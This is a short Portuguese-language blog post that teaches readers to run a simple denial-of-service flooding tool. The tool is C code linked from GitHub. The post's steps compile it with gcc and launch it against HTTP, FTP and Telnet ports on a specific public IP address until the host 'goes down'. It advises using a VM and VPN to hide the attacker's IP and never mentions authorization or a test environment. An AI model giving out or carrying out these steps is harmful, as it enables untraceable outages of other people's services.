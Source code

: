 ```yaml
---
title: Attacks - DoS with Clang
category: post
---
```


>link do código usado : 
https://github.com/d0x75/DoS-Clang_Linux.git

---


**Simple DoS Attack**

>DoS é um ataque de negação de serviço que é feito para prejudicar o pilar da Disponibilidade dos dados.

>Nesse caso se trata de um DoS bem simplório, que irá apenas ficar fazendo requisições repetidamente.. afim de sobrecarregar o Host e consequentemente derrubar-lo.



### Step 1

- Configurar uma VM Linux , de preferência com uma VPN para esconder o IP do atacante.

- Ter instalado ao menos o GCC na VM, para compilar o código que vai efetuar o DoS.


### Step 2


- Obter e Ler o código do link mencionado no início.

- Depois de entender e compilar o código mencionado
acima, usando o GCC de forma convencional :


```bash		
gcc DoS-linux.c -o DoS
```

### Step 3

- Se possível ligar uma VPN ou outro mecanismo que
esconda o IP do dispositivo atacante.
	
- Executar o programa compilado no Step 2, e passar
como argumento o 'host' e 'port' do alvo, que ficará
recebendo as requisições até ficar flooded e cair.

_exemplos :_

*Direcionando o DoS para um servidor HTTP(porta 80)* :


```bash
./DoS 65.75.137.94 80
```

*Direcionando o DoS para um servidor FTP(porta 21)* :


```bash
./DoS 65.75.137.94 21
```

*Direcionando o DoS para um servidor Telnet(porta 23)* :


```bash
./DoS 65.75.137.94 23
```